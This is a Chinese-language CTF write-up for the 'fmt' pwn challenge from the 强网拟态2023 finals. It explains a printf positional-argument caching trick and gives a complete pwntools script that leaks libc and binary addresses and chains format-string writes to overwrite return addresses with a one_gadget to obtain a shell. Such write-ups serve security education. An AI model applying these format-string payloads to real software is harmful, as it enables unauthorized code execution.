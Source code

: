 ```yaml
---
layout: article
pageview: true
key: 2023-12-21-qwnt2023-pwn-wp
title: 强网拟态2023决赛Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


<!--more-->

## fmt

题目结构很简单，一个裸的64位非栈空间的格式化字符串，开局给了栈地址后2位，没有溢出，没有`canary`，退出使用`_exit()`来防止`fini_array`利用。

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  __int64 savedregs; // [rsp+10h] [rbp+0h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  printf("Gift: %x\n", (unsigned __int16)((unsigned __int16)&savedregs - 12));
  read(0, buf, 0x100uLL);
  printf(buf);
  _exit(0);
}
```

按照格式化字符串解题的惯例，我们需要在第一次的格式化字符串时，修改程序流，使得实现多次格式化字符串利用。

然而这里并没有`exit(0)`函数可以利用，只有`_exit(0)`，这样会直接`syscall`退出程序，并不能走`fini_array`。

这里要利用到格式化字符串的一个小技巧

### 格式化字符串冷知识

格式化字符串时，使用**$**时会使得`printf`函数记录相关地址信息（未查询到相关文档），这使得我们不能在一次`printf`利用中做到对同一个地址的修改+利用

如栈空间上有以下结构 

1. XXX
2. YYY
3. ZZZ
4. QQQ
5. A → B → C
6. B → C 
7. C
8. D

如果我们使用类似`%xxxc%6$hhn%6$p`的payload，意图将第二个参数B地址中的值改为D后并打印B中的值（希望打印D）

实际上第一步确实可以修改成功，可以得到 6. B → D ，然而随后的`%2$p`依然会打印C，这是因为在第一次使用`$`时就是C

如果我们需要达成目标，则需要类似`%c%c%c%c%{xxx-4}c%hhn%6$p`这样的payload，运行的结果将会打印D出来。

相关参考题目 https://violenttestpen.github.io/ctf/pwn/2021/06/06/zh3r0-ctf-2021/

### 回到题目

有了以上思路后，题目就简单多了，我们可以一次利用链式修改`printf`函数返回地址并泄露地址，之后将`main`函数的返回地址`__libc_start_main+243`一步步链式修改为`one_gadget`，之后将`printf`返回地址改为类似`pop r13;pop r14;pop r15;ret`即可.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context(arch="amd64")

# context.log_level = "debug"

local = 1
_elf = "./fmt"
_addr = ""
_port = 0
_libc = "/home/osboxes/Desktop/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc.so.6"


def getConn():
    if local == 1:
        # return process(_elf)
        return process(
            [
                "/home/osboxes/Desktop/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/ld-linux-x86-64.so.2",
                _elf,
            ],
            env={
                "LD_PRELOAD": "/home/osboxes/Desktop/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc.so.6 "
            },
        )
    else:
        return remote(_addr, _port)


def debug(p, cmd=None):
    if local == 1:
        gdb.attach(p, cmd)
    pause()


elf = ELF(_elf)
libc = ELF(_libc)


p = getConn()

p.recvuntil(b"Gift: ")
gift = p.recv(4)
gift = int(gift, base=16)
log.info(hex(gift))

ret_addr = gift + 0xC + 0x8
printf_ret_addr = ret_addr - 0x20
log.info("ret_addr ->" + hex(ret_addr))
log.info("printf_ret_addr ->" + hex(printf_ret_addr))

ogg = [
    348041, 348053, 348074, 348082, 553667, 553680, 553692, 553705, 944878, 944881, 944884, 945379, 945382, 945497, 945504, 945573, 945581, 1090970, 1090978, 1090983, 1090993
]
payload1 = f"%c%c%c%c%c%c%c%c%c%{printf_ret_addr-9}c%hn"

payload2 = f"%{(0x23-printf_ret_addr+0x10000)%0x100}c%38$hhn"

payload4 = f"#%9$p#%13$p#"

payload = payload1 + payload2 + payload4
debug(p, "b printf\nc")

p.send(payload.ljust(0x100, "\0"))
sleep(0.1)
p.recvuntil(b"#0x")
libc_base = int(p.recv(12), 16) - 243 - libc.sym["__libc_start_main"]
log.info(hex(libc_base))
p.recvuntil(b"#0x")
elf_base = int(p.recv(12), 16) - 0x11A9
log.info(hex(elf_base))

ogg = libc_base + ogg[1]
log.info("one_gadget ->" + hex(ogg))
pop_13_14_15_ret = 0x12BE + elf_base

for i in range(3):
    content = (ogg >> (i * 8)) & 0xFF
    log.info(hex(content))
    payload5 = f"%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%{0x23-36+0x100}c%hhn"
    payload6 = f"%{(ret_addr+i-0x123)}c%25$hn#"
    payload7 = f"%{(content-0x23+0x100)%0x100}c%40$hhn#"

    p.sendafter("#", (payload5 + payload6).ljust(0x100, "\0"))
    p.sendafter("#", (payload5 + payload7).ljust(0x100, "\0"))

payload8 = f"%{pop_13_14_15_ret&0xffff}c%38$hn".ljust(0x100, "\0")
p.sendafter("#", payload8)
p.interactive()

```

